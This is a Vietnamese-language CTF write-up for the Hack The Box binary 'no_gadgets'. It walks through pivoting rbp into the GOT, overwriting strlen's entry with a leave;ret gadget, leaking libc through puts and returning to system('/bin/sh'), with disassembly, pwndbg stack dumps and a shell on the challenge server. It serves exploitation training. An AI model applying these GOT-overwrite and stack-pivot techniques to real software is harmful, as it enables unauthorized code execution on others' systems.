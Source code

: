 # write up nogadget
- vì bài không cho gadget nhưng lại overwrite được got thì em sẽ overwrite got để leak libc 
- để overwrite được got thì cần có được rbp là 1 địa chỉ vùng got sao cho khi return về main thì địa chỉ fgets read vào đúng địa chỉ chứa got 
```assembly 
   0x0000000000401222 <+75>:	lea    rax,[rbp-0x80]
   0x0000000000401226 <+79>:	mov    esi,0x1337
   0x000000000040122b <+84>:	mov    rdi,rax
   0x000000000040122e <+87>:	call   0x401060 <fgets@plt>
```
- ở đây em overwrite got với gadget leave ret có sẵn
```assembly
   0x0000000000401233 <+92>:	lea    rax,[rbp-0x80]
   0x0000000000401237 <+96>:	mov    rdi,rax
   0x000000000040123a <+99>:	call   0x401040 <strlen@plt>
```
- mục đích là lợi dụng cái này vì nó dùng rbp-0x80 nên khi thay đổi rbp tại đúng vị trí thì khi nó thao tác rbp-0x80 rax sẽ chứa 1 địa chỉ plt khác chứa libc 
- vì vậy sau khi nó leave ret thì phải leave ret vào đúng địa chỉ khác chứa gadgets mà em setup sẵn để quay lại hàm main
```assembly

    ─────────────────────────────────────[ STACK ]─────────────────────────────────────
    00:0000│ rsp 0x404090 —▸ 0x40115d (__do_global_dtors_aux+29) ◂— pop rbp
    01:0008│     0x404098 —▸ 0x404458 —▸ 0x40123f (main+104) ◂— cmp rax, 80h
    02:0010│     0x4040a0 —▸ 0x401274 (main+157) ◂— leave 
    03:0018│     0x4040a8 —▸ 0x40115d (__do_global_dtors_aux+29) ◂— pop rbp
    04:0020│     0x4040b0 —▸ 0x404228 ◂— 0x6161616161616161 ('aaaaaaaa')
    05:0028│     0x4040b8 —▸ 0x40121b (main+68) ◂— mov rdx, qword ptr [rip + 2e2eh]
    ───────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────
     ► 0x401275 <main+158>    ret                                <__do_global_dtors_aux+29>

```
- đây chính là nơi mà nó return sau khi nhập nhập lần 3 để overwrite got vào strlen
- vì thế trước đó cần phải setup gadget vào nơi nó return ở lần 2 đảm bảo lần 3 không bị ngắt quãng từ đây
- vì thế đống gadget này chính là setup từ lần 2
- sau khi leave ret thì chưa có leak libc vì rbp chưa đúng, phải qua lần thứ 4 
- sau khi em buffer lần nữa thì 
```assembly
    pwndbg> tel 0x404ee8
    00:0000│ rax 0x404ee8 —▸ 0x40115d (__do_global_dtors_aux+29) ◂— pop rbp
    01:0008│-078 0x404ef0 —▸ 0x4044c0 ◂— 0x6161616161616161 ('aaaaaaaa')
    02:0010│-070 0x404ef8 —▸ 0x401233 (main+92) ◂— lea rax, [rbp - 80h]
    03:0018│-068 0x404f00 ◂— 0x6161616161616161 ('aaaaaaaa')
    04:0020│-060 0x404f08 ◂— 0x6161616161616161 ('aaaaaaaa')
    05:0028│-058 0x404f10 ◂— 0x6161616161616161 ('aaaaaaaa')
    06:0030│-050 0x404f18 ◂— 0x6161616161616161 ('aaaaaaaa')
    07:0038│-048 0x404f20 ◂— 0x6161616161616161 ('aaaaaaaa')
    pwndbg> 
    08:0040│-040 0x404f28 ◂— 0x6161616161616161 ('aaaaaaaa')
    09:0048│-038 0x404f30 ◂— 0x6161616161616161 ('aaaaaaaa')
    0a:0050│-030 0x404f38 ◂— 0x6161616161616161 ('aaaaaaaa')
    0b:0058│-028 0x404f40 ◂— 0x6161616161616161 ('aaaaaaaa')
    0c:0060│-020 0x404f48 ◂— 0x6161616161616161 ('aaaaaaaa')
    0d:0068│-018 0x404f50 ◂— 0x6161616161616161 ('aaaaaaaa')
    0e:0070│-010 0x404f58 ◂— 0x6161616161616161 ('aaaaaaaa')
    0f:0078│-008 0x404f60 ◂— 0x6161616161616161 ('aaaaaaaa')
    pwndbg> 
    10:0080│ rbp 0x404f68 ◂— 0x6161616161616161 ('aaaaaaaa')
    11:0088│+008 0x404f70 —▸ 0x40115d (__do_global_dtors_aux+29) ◂— pop rbp
    12:0090│+010 0x404f78 —▸ 0x404ee0 ◂— 0
    13:0098│+018 0x404f80 —▸ 0x401274 (main+157) ◂— leave 
    14:00a0│+020 0x404f88 ◂— 0xa /* '\n' */
    15:00a8│+028 0x404f90 ◂— 0
    16:00b0│+030 0x404f98 ◂— 0
    17:00b8│+038 0x404fa0 ◂— 0
    pwndbg> tel 0x4044c0-0x80
    00:0000│-b28 0x404440 —▸ 0x7ffff7c7f490 (fgets+144) ◂— mov edx, dword ptr [rbp]
```
- lúc này mới thực sự có libc, và chỉ cần return vào phần chương trình kia thì địa chỉ chứa libc sẽ được giữ trong rax cho tới khi chạy tiếp tới đây
```assembly
   0x0000000000401267 <+144>:	mov    rdi,rax
   0x000000000040126a <+147>:	call   0x401030 <puts@plt>
   0x000000000040126f <+152>:	mov    eax,0x0
   0x0000000000401274 <+157>:	leave
   0x0000000000401275 <+158>:	ret
```
- thì libc sẽ được leak ra
- sau khi quay lại main là có thế run gadgets từ libc và lấy shell

```bash
    [*] leak libc: 0x7ff0ceb20850
    [*] libc base: 0x7ff0cea95000
    [*] bin_sh: 0x7ff0cec6d698
    [*] system_libc: 0x7ff0ceae5d60
    [*] pop_rdi: 0x7ff0ceabf3e5

    [*] Switching to interactive mode

    $ ls
    flag.txt
    ld-2.35.so
    libc.so.6
    no_gadgets
    $ cat flag.txt
    HTB{wh0_n3eD5_rD1_wH3n_Y0u_h@v3_rBp!!!_92e0eb70ee6d530b2e6a4a8a230dc258}$ 
    [*] Interrupted
    [*] Closed connection to 94.237.61.244 port 39654
```
